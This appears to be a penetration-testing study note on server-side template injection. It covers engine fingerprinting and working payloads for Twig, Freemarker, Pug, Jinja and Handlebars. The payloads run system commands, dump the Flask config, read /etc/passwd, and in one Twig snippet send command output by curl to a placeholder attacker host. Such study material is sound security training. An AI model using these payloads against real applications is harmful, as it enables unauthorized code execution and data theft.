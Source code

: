 # Server-side Template Injection SSTI

_Server-side Template Injection_

Template engines:

|Engine | Language | Server/Client side | Discovering engine|
|-------|-----------|-------------------|-------------------|
|Twig| PHP| Server side| 1) {{5 * '5'}} returns 25, 2) {{-name-}} returns trimmed name value |
| Freemaker | Java(usually)| Server side| 1) ${5 multiply '5'} returns an error, but  ${5 multiply 5} returns 25|
|Pug/Jade| JS | Mostly server side| 1) #{5*"5"} returns <25>| 
|Jinja| Python| Server side| 1) {{5*"5"}} returns 55555|
| Handlebars|  JS | Both|
|Mustache| Multiple| Varies|

In ascending order of logic:
1. Mustache
2. Handlebars
3. Jinja
4. Freemaker
5. Twig
6. Pug

💡Most templating engines will always escape HTML content unless specified not to. 
## Twig
See details in documentation of Twig [[2023051512325757  SSTI#^f60b31]]
Payloads:
```twig
{{[0]|reduce('system','whoami')}}
```
Another interesting functions: _filter_, _join_, _map_, _reduce_, _slice_, and _sort_
Other filters you can find here [[2023051512325757  SSTI#^d94507]]
### Send result of operation to the attacker's machine
```twig
{% set output %}
{{[0]|reduce('system','whoami')}}
{% endset %}

{% set exfil = output| url_encode %}
{{[0]|reduce('system','curl http://ATTACKER_/?exfil=' ~ exfil)}}
```

## Freemaker

See details in documentation of freemaker [[2023051512325757  SSTI#^bd9b07]]

💡 Freemarker auto-escape variables if the content type was an HTML document
💡 Before 2016, Freemarker required developers to specify if a variable needs to be HTML escaped.
We can try to exploit XSS to template variables. 

```freemaker
${"freemarker.template.utility.Execute"?new()("whoami")}
```
List of all classes we might use in template [[2023051512325757  SSTI#^f518ad]]
## Pug
See details in documentation of pug [[2023051512325757  SSTI#^360eb2]]
We can use child_process:  [[2023051512325757  SSTI#^c2fd17]]
```pug
- var require = global.process.mainModule.require
= require('child_process').spawnSync('whoami').stdout
```
## Jinja
If Jinja with Flask framework we can access to global variables like: config, request, session, g, url_for(), and get_flashed_messages() [[2023051512325757  SSTI#^cf86f3]]
```
 {{config|pprint}}
```

## Mustache and Handlebars
Hnadlebars mostly uses in JS. See details in documentation [[2023051512325757  SSTI#^116a10]] 
If an application uses the Handlebars templating engine and uses handlebars-helpers [[2023051512325757  SSTI#^3c2744]], we may be able to steal sensitive files from the file system
```handlebars
{{#each (readdir "/etc") }}
  {{this}}
{{/each}}
```

```handlebars
{{ read "/etc/passwd"}}
```
## References
1.  web200.Server-side Template Injection - Discovery and Exploitation
2.  (Symfony, 2021), [https://twig.symfony.com/doc/3.x/filters/index.html](https://twig.symfony.com/doc/3.x/filters/index.html) [↩︎](https://portal.offsec.com/courses/web-200/books-and-videos/modal/modules/server-side-template-injection-discovery-and-exploitation/twig-discovery-and-exploitation/twig-exploitation#fnref1) ^d94507
3. https://twig.symfony.com/ ^f60b31
4. Apache, 2021), https://freemarker.apache.org/  ^bd9b07
5. https://freemarker.apache.org/docs/api/freemarker/template/utility/Execute.html  ^f518ad
6. https://pugjs.org/api/getting-started.html ^360eb2
7. https://nodejs.org/docs/latest/api/child_process.html#child_process_child_process_spawnsync_command_args_options ^c2fd17
8. https://flask.palletsprojects.com/en/2.0.x/templating/#standard-context ^cf86f3
9. (handlebars-lang, 2021), https://github.com/handlebars-lang/handlebars.js ^116a10
10. (helpers, 2017), https://github.com/helpers/handlebars-helpers ^3c2744
